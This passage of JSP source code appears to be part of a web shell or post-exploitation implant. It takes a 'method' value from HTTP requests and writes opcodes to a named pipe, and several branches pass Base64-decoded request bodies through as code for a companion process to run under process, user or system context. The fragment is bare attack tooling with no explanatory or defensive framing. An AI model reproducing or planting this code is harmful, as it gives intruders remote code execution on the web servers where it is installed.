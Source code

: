 ```cpp
            pipe.close();
        }else if (method.equals("process")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x00);
            pipe.write(request.getHeader("Content-Method").getBytes());
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("user")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x03);
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("code")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x01);
            pipe.write(new sun.misc.BASE64Decoder().decodeBuffer(request.getInputStream()));
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("system")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x04);
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("system-run")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x05);
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("system-code")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x07);
            pipe.write(new sun.misc.BASE64Decoder().decodeBuffer(request.getInputStream()));
            pipe.close();
        }else if (method.equals("system-uncode")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x08);
            pipe.close();
        }

    }catch (Exception e){
        System.out.println(e.toString());
    }
%>
```
